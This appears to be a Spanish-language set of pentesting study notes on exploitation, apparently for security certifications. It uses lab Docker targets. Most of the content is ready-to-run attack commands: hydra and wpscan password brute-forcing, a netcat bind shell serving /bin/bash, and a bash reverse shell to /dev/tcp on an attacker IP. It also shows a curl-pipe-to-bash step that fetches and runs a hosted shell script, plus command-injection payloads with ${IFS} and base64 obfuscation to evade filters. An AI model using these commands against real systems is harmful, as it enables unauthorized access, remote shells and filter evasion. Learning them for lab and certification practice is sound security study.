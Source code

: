 ## Explotación
### Indice
- [FTP](#exftp)
- [SSH](#exssh)
- [HTTP SSL](#exssl)
- [Wordpress](#exwp)
- [Reverse Shell](#shell)
- [Experiencias con Reverse Shell](#exshell)
- [Inyeccion comandos](#inyeccion_comandos)
 <a name="exftp"></a>
### FTP
 
Dockers de pruebas
```
1. https://github.com/garethflowers/docker-ftp-server
2. https://github.com/metabrainz/docker-anon-ftp
```

Fuerza bruta: ``` hydra -l user -P passwords.txt ftp://172.17.0.2```

 * Con -l le especificamos un usuario, con -L le especificamos un diccionario de usuarios. igual para la contraseña
 
Si aparece la version, se podría mirar algun exploit.
 
<a name="exssh"></a>
 ### SSH
 
Docker de pruebas ```https://hub.docker.com/r/linuxserver/openssh-server ```
Fuerza bruta: ``` hydra -l user -P passwords.txt ssh://172.17.0.2 -s 2222```

 <a name="exssl"></a>
## HTTPS SSL

 Docker de pruebas
 ```https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160```
  
 Ver vulnerabilidades en certificados SSL:
 ```sslscan google.com:443```  
 algunas maquinas son vulnerables a Heartbleed, lo que consigue hacer un dump de la memoria en la que podemos llegar a encontrar claves privadas, nombres de usuario, contraseñas...

<a name="exwp"></a>
 ## Wordpress
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```

 ## Reverse, Bind, Forward Shells
 
 Suponiendo que conseguimos realizar ejecución remota de comandos, podriamos tratar de enviarnos una shell interactiva desde la cual movernos por el sistema atacado. Tenemos 3 tipos:
 <a name="shell"></a>
 ### Reverse shell
 La víctima nos envía una shell interactiva a nosotros, que estremos a la escucha con netcat. En [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) tenemos diferentes maneras de ejecutar la shell remota según los recursos que dispongamos. Solamente deberíamos estar a la escucha con netcat de la siguiente manera:
 ```
 nc -nlvp 443
 ```
 ### Bind shell
 La conexión es igual que la anterior solo que de manera inversa. en este caso el atacante es el que está a la escucha pero ofreciendo una bash, para ello:
 ```
 Victima: nc -nlvp 443 -e /bin/bash
 Atacante: nc <ip> <puerto>
 ```
 
 ### Forward Shell
 Es una manera de evitar las restricciones que pudieramos tener a la hora de establecer una conexión, por ejemplo si a través de fiewall nos capasen los puertos. La consola no es 100% interactiva pero se puede simular.
 
 Para ello necesitamos poder subir archivos, y subiriamos el php reverse shell de pentestmonkey. y nos descargamos el siguiente ejecutable: [TTYoverHTTP](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py) 
 la manera de proceder es la siguiente:
 ```
 1. subir el fichero cmd.php (o como le queramos llamar)
 2. Editar si fuera necesario el ttyoverhttp, con la ruta y el nombre del fichero para decirle donde se ubica el php reverse shell
 3. Ejecutar tty_over_http.py
 ```


 <a name="inyeccion_comandos"></a>
 <a name="exshell"></a>
### Experiencias con Reverse Shell  

#### Si no deja introducir espacios en blanco, lo mejor es: 
1º Crear un fichero .sh que contenga el código de la reverse shell  
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/443 0>&1'
```
2º Montar un servidor web para ofrecer el fichero  
```
python3 -m http.server 80
```
3º En la parte donde podamos inyectar el comando:
```
curl${IFS}<IP>/shell.sh|sh
o
curl${IFS}<IP>/shell.sh|bash

${IFS} sería el espacio en bash
```
### Inyección de comandos WEB  

hay varias maneras de inyectar comandos, por ejemplo en burpsuite. Si identificamos un campo, lugar donde creemos que se pueda inyectar comandos, aquí se listan varias opciones para hacerlo.  
```
$(comando)
;comando
;comando;
;comando;#

No todos los comandos funcionan, probar con: id, whoami, ps, ls ...
```

Si no nos permite espacios:  
```
Cambiamos el espacio por ${IFS} ejemplo:
echo${IFS}hola${IFS}mundo
```

Conversión a base64 (para evitar el error con caracteres no permitidos, como el &)
```
# Bash B64 Ofuscated
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```
<a href="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/tree/main"> Menú Principal</a>
